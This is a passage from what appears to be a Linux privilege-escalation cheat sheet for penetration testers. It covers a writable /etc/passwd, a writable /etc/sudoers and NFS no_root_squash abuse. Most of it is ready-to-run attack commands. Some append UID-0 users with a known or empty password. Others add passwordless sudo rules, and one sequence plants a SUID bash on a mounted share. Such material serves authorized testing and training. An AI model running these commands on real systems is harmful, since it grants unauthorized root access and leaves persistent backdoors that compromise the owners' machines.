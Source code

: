 Then add the user `hacker` and add the generated password.

```powershell
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.    
WARNING: you might degrade the current security of the machine.

```powershell
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`. 

### Writable /etc/sudoers

```powershell
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

## NFS Root Squashing

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

```powershell
# remote check the name of the folder
showmount -e 10.10.10.10

# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```

## Shared Library
